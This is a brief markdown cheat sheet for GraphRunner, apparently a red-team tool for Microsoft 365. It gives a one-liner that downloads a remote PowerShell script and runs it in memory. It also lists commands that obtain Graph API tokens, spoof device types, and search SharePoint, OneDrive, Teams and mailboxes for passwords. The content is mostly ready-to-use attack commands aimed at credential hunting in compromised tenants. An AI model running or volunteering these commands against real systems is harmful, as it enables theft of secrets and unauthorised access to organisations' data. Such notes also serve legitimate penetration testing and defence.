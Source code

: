 # GraphRunner

## Command to execute: IEX (iwr 'https://raw.githubusercontent.com/dafthack/GraphRunner/main/GraphRunner.ps1') | iex

### Commands:

 - List-GraphRunnerModules (Lists all modules of graphrunner)

 - Get-GraphTokens -UserPasswordAuth (Authenticate with valid credentials to open a graph API session)

 - Invoke-SearchSharePointAndOneDrive -Tokens $tokens -SearchTerm 'password' (Search for files on OneDrive and Sharepoint containing the string "password" by using the tokens we dumped from the Graph API session)

 - Invoke-SearchTeams -Tokens $tokens -SearchTerm password (Search all Teams channels with the specific term that are readable by our user)

 - Invoke-SearchMailbox -Tokens $tokens -SearchTerm "password" -MessageCount 40 (Searches the mailbox of our current user)

 - Get-GraphTokens -Device AndroidMobile -Browser Android (Emulates other devices when requesting tokens.)


